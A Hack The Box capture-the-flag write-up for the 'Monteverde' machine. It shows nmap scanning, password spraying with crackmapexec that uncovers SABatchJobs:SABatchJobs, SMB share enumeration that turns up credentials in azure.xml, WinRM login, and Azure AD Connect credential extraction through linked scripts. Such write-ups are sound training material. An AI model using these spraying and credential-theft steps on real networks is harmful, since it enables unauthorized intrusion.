 ```css
title: "Hack the box - Monteverde"
author: mayomacam
date: "2020-06-14"
subject: "CTF Writeup"
keywords: [Hack the box, Box, CTF, Security]
```

![logo](./1.png)


Monteverde is a  

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```markdown
$nmap -p- --min-rate 10000 -Pn 10.10.10.172
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 12:48 IST
Nmap scan report for 10.10.10.172
Host is up (0.17s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49706/tcp open  unknown
49781/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.10 seconds
```

From the above output we can see that ports, **53**, **88**, **135**, **139**, **389** , **445**, **464**, **593**, **636**, **3268**, **3269**, **5985** ,**9389** and some others ports are open. 
There is no port 80 and it's a windows box so i start with enum4linux .
![enum4linux](./2.png)

We got sessions information that we can create a session and ldap is active and got domain name for ldap service. we got user names too.
![enum4linux](./3.png)

Smb was close.
![enum4linux](./4.png)

We find different types of groups too.
![enum4linux](./5.png)

![enum4linux](./6.png)

![enum4linux](./7.png)

![enum4linux](./8.png)

# Exploitation

look upon all data group user we get after enum4linux(wrapper for rpcclient, net, nmblookup and smbclient). i try to find online but i can't seem to find anything . On forum i got tool name cme (ccrackmapexec) and password related info(password spraying) .so i run crackmapexec or cme.

```sh
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

```sh
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        users$                                                  READ ONLY
```

I looked through each share. I can connect with smbclient and poke around, or use smbmap to list out files. Either way, I find something interesting in the users$ share:
```sh
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.172...
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        .                                                  
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
        users$                                                  READ ONLY
        .\
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
        .\mhope\
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    .
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    ..
        -w--w--w--             1212 Fri Jan  3 09:59:24 2020    azure.xml
```

using smbmap i download azure.xml
![azure](./9.png)


after open i got cred for user mhope.
![ftp-pass](./10.png)

using cme after try on different service i got that it can login winrm.
![ftp](./10.5.png)

## User Flag
After login on desktop i got user.txt
![login](./11.png)

And got our user flag.

## Root Flag

for priviledge escalation quite hard but with azure files a i can get a general idea.
so first try too see user permission in netgroup.
![file](./12.png)

after searching online i got a blog that's tells more about azure ADconnect and ADsync
![blog](https://blog.xpnsec.com/azuread-connect-for-redteam/)

and on github i got scripts.
![blog](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1)
![blog](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c)

both we can use to get cred.

then using script we got admin shell just need a webserver and using powerhell download we got our cred.
![cred](./13.png)

we got our root.txt
![root](./14.png)



# Conclusion
I learn a lot doing this box. I wish i have done box early. Azure service and crackmapexec teach me many things.

